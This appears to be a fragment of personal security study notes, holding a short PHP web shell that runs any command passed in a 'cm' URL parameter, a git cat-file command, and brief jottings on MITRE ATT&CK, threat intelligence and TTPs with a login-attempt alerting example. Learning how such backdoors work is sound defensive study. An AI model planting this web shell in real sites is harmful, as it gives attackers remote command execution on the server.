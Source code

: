```
<?php
$output = shell_exec($_GET['cm']);
echo "<pre>$output</pre>"
?>
```
- git cat-file (-t|p) $(cat master)
### mitre att&ck 
  - CTI : Cyber Threat Intelligence
  - TTPS : Tactics Techniques and Procedures : 
        Example of ttps : Under 5 login attemps --> ban
                          ttps : 4 login and create new session 
                          mitigation : 3 Login attemps raises SIEM alert
                          
